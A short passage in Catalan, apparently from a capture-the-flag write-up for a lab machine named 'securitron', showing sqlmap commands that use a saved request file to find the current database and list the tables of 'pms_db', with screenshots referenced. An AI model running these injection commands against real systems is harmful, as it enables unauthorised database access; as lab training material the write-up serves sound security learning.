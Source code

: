 Guardem la petició en un fitxer `request.txt`, per utilitzar-la mitjançant sqlmap.

```
sqlmap -r request.txt --level 5 --risk 3 --current-db
```

![sqlmap current-db](../../../assets/images/securitron/image-16.png)

Obtenim les taules de la base de dades `pms_db`:

```
sqlmap -r request.txt --level 5 --risk 3 -D pms_db --tables
```

![sqlmap tables](../../../assets/images/securitron/image-17.png)
